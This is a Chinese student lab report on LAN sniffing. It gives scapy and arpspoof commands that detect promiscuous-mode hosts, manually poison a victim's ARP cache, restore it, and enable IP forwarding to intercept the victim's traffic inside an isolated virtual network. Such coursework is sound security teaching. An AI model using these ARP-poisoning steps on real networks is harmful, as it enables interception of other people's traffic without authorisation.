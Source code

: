# 网络监听实验

## 网络拓扑

![topology](img/topology.png)

## 实验准备

安装`scapy`

![step0](img/step0.png)

**对kali-attacker的网络设置进行修改，使三台计算机处于同一局域网内。**

## 实验内容

### 实验一：检测局域网中的异常终端

1. 用`ip link show [网卡名称]`命令检查受害者主机上网卡的「混杂模式」是否启用。

![step1_1](img/step1_1.png)

2. 在攻击者主机上启动scapy，用`pkt = promiscping("172.16.111.147")`尝试嗅探是否存在异常终端。由于混杂模式默认关闭，所以是没有返回包。

![step1_2](img/step1_2.png)

3. 通过`sudo ip link set eth0 promisc on`手动开启网卡的混杂模式，再用`ip link show eth0`就能发现输出结果里多出来了`PROMISC`。

![step1_3](img/step1_3.png)

4. 这时再在攻击者主机上输入`pkt = promiscping("172.16.111.147")`，可以看到接受到了靶机的回复。

![step1_4](img/step1_4.png)

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1. 首先在scapy中构造一个arp请求`arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`，可以用`arpbroadcast.show()`命令来查看。

![step2_1](img/step2_1.png)

2. 用`recved = srp(arpbroadcast, timeout=2)`发送这个请求，再通过`gw_mac = recved[0][0][1].hwsrc`来获取网关的mac地址。

![step2_2](img/step2_2.png)

3. 用`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.147", hwdst="08:00:27:21:8e:0e")`来伪造一个从网关发送给受害者的ARP请求，而其中包含的网关的mac地址则被篡改为了攻击者的mac地址。再用`send(arpspoofed)`发送出去。

![step2_3](img/step2_3.png)

4. 这时用`ip neigh`在受害者主机上查看arp缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址。

![step2_4](img/resolve.png)

5. 回到攻击者主机上的 scapy 交互式终端继续执行命令：

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:73:ce", pdst="172.16.111.147", hwdst="08:00:27:e0:45:e0")
sendp(restorepkt1, count=100, inter=0.2)
```

- 此时在受害者主机上用`ping 172.16.111.1`准备“刷新”网关 ARP 记录。再用`ip neigh`命令查看，发现arp已恢复。

![step2_4](img/step2_4.png)

### 实验三：使用自动化工具完成 ARP 投毒劫持实验

1. 使用`arpspoof`工具，用`sudo arpspoof -i eth0 -t 172.16.111.147 172.16.111.1`即可自动化完成arp投毒劫持。此时会看到受害者主机无法访问网络。

![step3_1](img/step3_1.png)

2. 在root权限下可以用`echo 1 > /proc/sys/net/ipv4/ip_forward`开启ipv4转发，以此方式我们可以在保持受害者主机可以联网的同时在攻击者主机上对其进行监控。

![step3_2](img/step3_2.png)

3. 将工具关闭后，可以看到受害者主机的网络连接恢复了正常。

![step3_3](img/step3_3.png)

## 实验中遇到的问题和解决方法

1. scapy执行`pkt = promiscping("172.16.111.147")`时提示权限不足。

![problem1](img/problem1.png)

- 在运行scapy时加上sudo即可。

2. 实验二发送ARP广播请求后没有回复。

![problem2](img/problem2.png)

- 尝试使用了另一块网卡进行通信，结果却变得很混乱。

![problem3](img/problem3.png)

- 最后发现是对attacker的网卡设置时出现了错误，在内部网络之外还错误地加入了NAT网络，将其关闭后问题得到了解决。

3. 使用`sendp(arpspoofed)`发送的包没有得到相应。

![problem4](img/problem4.png)

- 通过观看视频得知应该使用`send`命令。